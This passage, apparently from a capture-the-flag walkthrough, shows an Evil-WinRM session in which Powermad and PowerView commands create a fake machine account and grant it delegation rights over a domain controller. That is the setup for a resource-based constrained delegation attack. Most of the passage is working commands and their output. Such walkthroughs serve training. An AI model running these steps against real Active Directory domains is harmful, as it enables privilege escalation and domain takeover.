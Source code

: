 Finally, I’ll want to check that the `msds-allowedtoactonbehalfofotheridentity` is empty:
```
*Evil-WinRM* PS C:\programdata> Get-DomainComputer DC | select name,msds-allowedtoactonbehalfofotheridentity | fl

name                                     : DC
msds-allowedtoactonbehalfofotheridentity :
```

I’ll use the `Powermad` `New-MachineAccount` to create a fake computer:
```
*Evil-WinRM* PS C:\programdata> New-MachineAccount -MachineAccount 0xdfFakeComputer -Password $(ConvertTo-SecureString '0xdf0xdf123' -AsPlainText -Force)
[+] Machine account 0xdfFakeComputer added
```

I need the SID of the computer object as well, so I’ll save it in a variable:
```
*Evil-WinRM* PS C:\programdata> $fakesid = Get-DomainComputer 0xdfFakeComputer | select -expand objectsid
*Evil-WinRM* PS C:\programdata> $fakesid
S-1-5-21-1677581083-3380853377-188903654-1121
```

Now I’ll configure the DC to trust my fake computer to make authorization decisions on it’s behalf. These commands will create an ACL with the fake computer’s SID and assign that to the DC:
```
*Evil-WinRM* PS C:\programdata> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
*Evil-WinRM* PS C:\programdata> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\programdata> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\programdata> Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

I’ll verify it worked:
```
*Evil-WinRM* PS C:\programdata> $RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
*Evil-WinRM* PS C:\programdata> $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
*Evil-WinRM* PS C:\programdata> $Descriptor.DiscretionaryAcl


BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983551
SecurityIdentifier : S-1-5-21-1677581083-3380853377-188903654-1121
AceType            : AccessAllowed
AceFlags           : None
IsInherited        : False
InheritanceFlags   : None
PropagationFlags   : None
AuditFlags         : None
```
